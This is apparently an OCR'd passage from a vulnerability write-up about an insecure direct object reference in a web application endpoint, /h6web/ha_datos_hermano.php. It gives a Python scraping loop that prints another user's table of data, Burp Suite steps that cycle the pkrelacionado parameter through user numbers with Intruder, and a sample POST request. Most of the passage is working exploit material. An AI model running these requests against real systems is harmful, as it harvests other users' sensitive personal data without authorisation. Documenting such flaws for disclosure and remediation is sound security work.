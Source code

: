 ```python
    response = requests.post(url, cookies=cookies, headers=headers, data=data)

    if response.status_code == 200:
        soup = BeautifulSoup(response.text, 'html.parser')
        table = soup.find('table', {'class': 'tabla1'})

        if table:
            for row in table.find_all('tr'):
                cells = row.find_all(['td', 'th'])
                cell_text = [cell.get_text(strip=True) for cell in cells]
                print(cell_text)
        else:
            print('Table "tabla1" not found')
    else:
        print(f'HTTP Request Error: {response.status_code}')
```

#### Burp Suite Exploitation Steps

To exploit this vulnerability using Burp Suite:

1. Intercept a valid request to the `/h6web/ha_datos_hermano.php` endpoint
2. Modify the `pkrelacionado` parameter value to different user numbers
3. Send the request and observe the response with other users' sensitive data
4. Automate the exploitation using Burp Intruder to iterate over multiple `pkrelacionado` values

- HTTP EXAMPLE:

```
POST /h6web/ha_datos_hermano.php HTTP/2
Host: URL
Cookie: PHPSESSID=dcBd593c29b3247b1a0b5c8e8aca12124
Content-Length: 18
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: es-ES,es;q=0.9
Priority: u=0

pkrelacionado=4104
```
